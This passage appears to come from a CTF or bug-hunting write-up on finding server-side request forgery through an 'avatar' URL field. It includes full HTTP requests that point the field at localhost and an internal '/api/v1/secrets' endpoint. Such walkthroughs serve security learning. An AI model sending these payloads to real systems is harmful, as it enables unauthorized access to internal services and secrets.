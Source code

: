 I decided to fuzz some fields in burp for this one and found that "avatar" returns..

```json
{ "error": "Avatar resource should start with http:// or https:// " }
```

here I got excited, let's try some SSRF

first let's try something simple

```http
PUT /api/v1/user HTTP/2
Host: <target>
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Token: 22cbe1bfc55d7955a3f47d250ca36c19

avatar=http://localhost
```

This looks interesting, we are seeing the exact response from when we started

```json
{ "error": "Non Image detected", "example_data": "API base located at /api/v1/" }
```

Logically, we may be able to move within the API

```http
PUT /api/v1/user HTTP/2
Host: <target>
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Token: 22cbe1bfc55d7955a3f47d250ca36c19

avatar=http://localhost/api/v1/secrets
```
